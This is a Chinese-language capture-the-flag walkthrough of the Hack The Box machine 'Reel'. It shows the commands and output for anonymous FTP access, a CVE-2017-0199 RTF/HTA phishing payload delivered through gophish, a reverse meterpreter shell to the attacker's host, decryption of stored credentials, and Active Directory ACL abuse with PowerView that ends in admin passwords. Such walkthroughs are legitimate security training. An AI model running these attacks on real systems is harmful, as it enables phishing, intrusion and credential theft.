





## 信息收集

首先使用`nmap`进行扫描

```
# Nmap 7.92 scan initiated Tue Jun  7 21:18:53 2022 as: nmap -Pn -sS -p- --open --min-rate 1000 -o scan/Reel 10.10.10.77
Nmap scan report for 10.10.10.77
Host is up (0.26s latency).
Not shown: 65529 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

# Nmap done at Tue Jun  7 21:21:05 2022 -- 1 IP address (1 host up) scanned in 131.81 seconds

```

从上面的端口中，优先测试`21`端口，结果存在匿名登录

```
└─$ ftp 10.10.10.77                                 
Connected to 10.10.10.77.
220 Microsoft FTP Service
Name (10.10.10.77:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||41012|)
125 Data connection already open; Transfer starting.
05-29-18  12:19AM       <DIR>          documents
226 Transfer complete.
ftp> binary
200 Type set to I.
ftp> cd documents
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||41013|)
125 Data connection already open; Transfer starting.
05-29-18  12:19AM                 2047 AppLocker.docx
05-28-18  02:01PM                  124 readme.txt
10-31-17  10:13PM                14581 Windows Event Forwarding.docx
226 Transfer complete.
ftp> 
```

先把文件下载下来，在`readme.txt`中可以得知，当发送一个`rtf`的文件过去，对方会转换成`docx`并保存在这个目录下。

同时`applick.docx`文件中说明了对方开启了`applock`，并且对`exe, msi, ps1, vbs, cmd, bat, js`等文件进行哈希规则匹配，说明这些文件并不能执行了。

但是我们还可以尝试`hta`后缀的文件，`hta`文件也是可以执行命令的。因此可以想到，这里应该是利用`HTA`配合`office`来进行钓鱼攻击，通过搜索可以得到这是`CVE-2017-0199`漏洞。


现在我们需要的是一个存在的邮件地址，由于目标开启了`25`端口，我们可以尝试枚举用户名

```
msf6 auxiliary(scanner/smtp/smtp_enum) > run 

[*] 10.10.10.77:25        - 10.10.10.77:25 Banner: 220 Mail Service ready
[*] 10.10.10.77:25        - 10.10.10.77:25 could not be enumerated (no EXPN, no VRFY, invalid RCPT)
[*] 10.10.10.77:25        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smtp/smtp_enum) >
```

但是目标服务器禁用了这些命令，无法进行枚举。

再次回到`ftp`上下载的内容，针对`Windows Event Forwarding.docx`文件，使用`7z`打开，在`core.xml`文件中找到一个邮箱地址

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<cp:coreProperties xmlns:cp="http://schemas.openxmlformats.org/package/2006/metadata/core-properties" xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:dcterms="http://purl.org/dc/terms/" xmlns:dcmitype="http://purl.org/dc/dcmitype/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><dc:creator>nico@megabank.com</dc:creator><cp:revision>4</cp:revision><dcterms:created xsi:type="dcterms:W3CDTF">2017-10-31T18:42:00Z</dcterms:created><dcterms:modified xsi:type="dcterms:W3CDTF">2017-10-31T18:51:00Z</dcterms:modified></cp:coreProperties>
```


## 漏洞利用

首先使用`msf`生成自定义的`hta`

```
msf6 exploit(windows/fileformat/office_word_hta) > [*] Started reverse TCP handler on 10.10.16.2:4444 
[+] msf.doc stored at /home/kali/.msf4/local/msf.doc
[*] Using URL: http://10.10.16.2:8080/default.hta
[*] Server started.
```

然后生成一个`rtf`文件，配合`msf`的`hta`，可以使用漏洞利用[工具](https://github.com/bhdresh/CVE-2017-0199)

```
python2 cve-2017-0199_toolkit.py -M gen -t RTF -w invoice.rtf -u http://10.10.16.2:8080/default.hta
```

最后使用`gophish`来发送邮件

设置`sending profiles`



设置`landing Pages`，这个可以随便写



设置`Email Templates`，这里上传我们生成的`invoice.rtf`文件



设置`Users & Groups`，这里邮件接收者



都设置好后，就可以开始发送邮件了




等待一会之后，`msf`收到反弹回来的`meterpreter`

```
msf6 exploit(windows/fileformat/office_word_hta) > 
[*] Sending stage (175174 bytes) to 10.10.10.77
[*] Meterpreter session 1 opened (10.10.16.2:4444 -> 10.10.10.77:64064) at 2022-06-08 11:02:45 -0400

msf6 exploit(windows/fileformat/office_word_hta) > 
msf6 exploit(windows/fileformat/office_word_hta) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 3320 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
htb\nico

C:\Windows\system32>

```

在当前用户的桌面得到`user.txt`

## 横向移动

同时在桌面可以得到`tom`用户的`hash`

```xml
c:\Users\nico\Desktop>type cred.xml
type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>

```

只能在服务器上解密，自动加载`DPAPI`来解密
```
c:\Users\nico\Desktop>powershell $cred = import-clixml -path cred.xml;$cred.GetNetworkCredential().password    
powershell $cred = import-clixml -path cred.xml;$cred.GetNetworkCredential().password
1ts-mag1c!!!

c:\Users\nico\Desktop>powershell $cred = import-clixml -path cred.xml;$cred.GetNetworkCredential().username
powershell $cred = import-clixml -path cred.xml;$cred.GetNetworkCredential().username
Tom

```

得到`tom`的账户密码之后，我们使用它来登录`22`端口，成功登入。

查看当前用户权限
```
tom@REEL C:\Users\tom>whoami /all                                                                                               

USER INFORMATION                                                                                                                
----------------                                                                                                                

User Name SID                                                                                                                   
========= ==============================================                                                                        
htb\tom   S-1-5-21-2648318136-3688571242-2924127574-1107                                                                        


GROUP INFORMATION                                                                                                               
-----------------                                                                                                               

Group Name                                 Type             SID                                            Attributes           
                                                                                                                                
========================================== ================ ============================================== =====================
=============================                                                                                                   
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enab
led by default, Enabled group                                                                                                   
BUILTIN\Print Operators                    Alias            S-1-5-32-550                                   Mandatory group, Enab
led by default, Enabled group                                                                                                   
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enab
led by default, Enabled group                                                                                                   
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enab
led by default, Enabled group                                                                                                   
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enab
led by default, Enabled group                                                                                                   
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enab
led by default, Enabled group                                                                                                   
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enab
led by default, Enabled group                                                                                                   
HTB\SharePoint_Admins                      Group            S-1-5-21-2648318136-3688571242-2924127574-1142 Mandatory group, Enab
led by default, Enabled group                                                                                                   
HTB\MegaBank_Users                         Group            S-1-5-21-2648318136-3688571242-2924127574-1604 Mandatory group, Enab
led by default, Enabled group                                                                                                   
HTB\DR_Site                                Group            S-1-5-21-2648318136-3688571242-2924127574-1143 Mandatory group, Enab
led by default, Enabled group                                                                                                   
HTB\HelpDesk_Admins                        Group            S-1-5-21-2648318136-3688571242-2924127574-1145 Mandatory group, Enab
led by default, Enabled group                                                                                                   
HTB\Restrictions                           Group            S-1-5-21-2648318136-3688571242-2924127574-1146 Mandatory group, Enab
led by default, Enabled group                                                                                                   
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enab
led by default, Enabled group                                                                                                   
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                        
                                                                                                                                


PRIVILEGES INFORMATION                                                                                                          
----------------------                                                                                                          

Privilege Name                Description                    State                                                              
============================= ============================== =======                                                            
SeMachineAccountPrivilege     Add workstations to domain     Enabled                                                            
SeLoadDriverPrivilege         Load and unload device drivers Enabled                                                            
SeShutdownPrivilege           Shut down the system           Enabled                                                            
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled                                                            
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled     

```

同时在桌面发现了一些利用工具

```
PS C:\Users\tom\Desktop\AD Audit> ls                                                                                            


    Directory: C:\Users\tom\Desktop\AD Audit                                                                                    


Mode                LastWriteTime     Length Name                                                                               
----                -------------     ------ ----                                                                               
d----         5/30/2018  12:44 AM            BloodHound                                                                         
-ar--         5/29/2018   9:02 PM        182 note.txt   

PS C:\Users\tom\Desktop\AD Audit> cat note.txt                                                                                  
Findings:                                                                                                                       

Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).                                  

Maybe we should re-run Cypher query against other groups we've created
```
从上面的提示中，知道了默认的最短路径查询并没有找到可用的提权方式，我们应该查询一些别的组。

进入`BloodHound\`目录，目录内`powerview.ps1`可执行。子目录`Ingestors`存在`acls.csv`文件，同时该目录下的文件都被组策略禁止执行

```
PS C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors> ls                                                                       


    Directory: C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors                                                               


Mode                LastWriteTime     Length Name                                                                               
----                -------------     ------ ----                                                                               
-a---        11/16/2017  11:50 PM     112225 acls.csv                                                                           
-a---        10/28/2017   9:50 PM       3549 BloodHound.bin                                                                     
-a---        10/24/2017   4:27 PM     246489 BloodHound_Old.ps1                                                                 
-a---        10/24/2017   4:27 PM     568832 SharpHound.exe                                                                     
-a---        10/24/2017   4:27 PM     636959 SharpHound.ps1 
```

## 提权

先把`acls.csv`下载回来进行分析，现在我们所拥有的权限是`nico`用户和`tom`这两个用户，我们先来看看这两个用户都能做什么。

在`acls.csv`中搜索`nico`和`tom`

```
"claire@HTB.LOCAL","USER","","tom@HTB.LOCAL","USER","WriteOwner","","AccessAllowed","False"
"herman@HTB.LOCAL","USER","","nico@HTB.LOCAL","USER","WriteOwner","","AccessAllowed","False"
```

可以看到`nico`和`tom`分别对`herman`和`claire`具有`writeowner`权限

`claire`用户属于组
```
Local Group Memberships      *Hyper-V Administrator                                                                             
Global Group memberships     *Domain Users         *MegaBank_Users                                                              
                             *DR_Site              *Restrictions
```

`herman`用户属于组
```
Global Group memberships     *Domain Users         *MegaBank_Users                                                              
                             *DR_Site              *Restrictions
```

我们再接着看，这两个用户对于其他对象是否拥有`acl`权限，继续搜索`herman`和`claire`，可以看到这两个用户对组`backup_admins`拥有`writedacl`权限
```
"Backup_Admins@HTB.LOCAL","GROUP","","claire@HTB.LOCAL","USER","WriteDacl","","AccessAllowed","False"
"Backup_Admins@HTB.LOCAL","GROUP","","herman@HTB.LOCAL","USER","WriteDacl","","AccessAllowed","False"
```

因此通过`dacl`的攻击链，我们首先可以设置`claire`用户的`owner`为`tom`，从而得到`claire`用户的权限。然后通过`claire`来获得用户组`backup_admins`的权限

```powershell
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom      

PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPass
word -Verbose                                                                                                                   
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC=HTB,DC=LOCAL                                                               
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=tom)(name=tom)(displayname=tom))))            
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC=HTB,DC=LOCAL                                                               
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=claire)(name=claire)(displayname=claire))))   
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=Tom Hanson,CN=Users,DC=HTB,DC=LOCAL 'ResetPassword' on CN=Claire           
Danes,CN=Users,DC=HTB,DC=LOCAL                                                                                                  
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=Tom Hanson,CN=Users,DC=HTB,DC=LOCAL rights GUID                            
'00299570-246d-11d0-a768-00aa006e0529' on CN=Claire Danes,CN=Users,DC=HTB,DC=LOCAL
                                              
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $p = ConvertTo-SecureString 'P@ssw0rd!' -AsPlainText -Force -Verbose       

PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -Identity claire -AccountPassword $p -Verbose               
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'claire'                                              
VERBOSE: [Set-DomainUserPassword] Password for user 'claire' successfully reset                      

PS C:\Users\tom\Desktop\AD Audit\BloodHound> $Cred = New-Object System.Management.Automation.PSCredential("HTB\claire", $p)     
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainGroupMember -Identity 'Backup_Admins' -Members 'claire' -Credential $Cred
```


修改`claire`的密码之后，登录服务器，可以发现组`Backup_admins`的用户可以访问管理员的桌面
```
claire@REEL c:\Users\Administrator\Desktop>type root.txt                                                                        
Access is denied.                                                                                                               

claire@REEL c:\Users\Administrator\Desktop>cd "Backup Scripts"                                                                  

claire@REEL c:\Users\Administrator\Desktop\Backup Scripts>dir                                                                   
 Volume in drive C has no label.                                                                                                
 Volume Serial Number is CC8A-33E1                                                                                              

 Directory of c:\Users\Administrator\Desktop\Backup Scripts                                                                     

11/02/2017  10:47 PM    <DIR>          .                                                                                        
11/02/2017  10:47 PM    <DIR>          ..                                                                                       
11/04/2017  12:22 AM               845 backup.ps1                                                                               
11/02/2017  10:37 PM               462 backup1.ps1                                                                              
11/04/2017  12:21 AM             5,642 BackupScript.ps1                                                                         
11/02/2017  10:43 PM             2,791 BackupScript.zip                                                                         
11/04/2017  12:22 AM             1,855 folders-system-state.txt                                                                 
11/04/2017  12:22 AM               308 test2.ps1.txt      
```

最后在备份脚本中找到铭文密码

```
# admin password                                                                                                                
$password="Cr4ckMeIfYouC4n!"
```
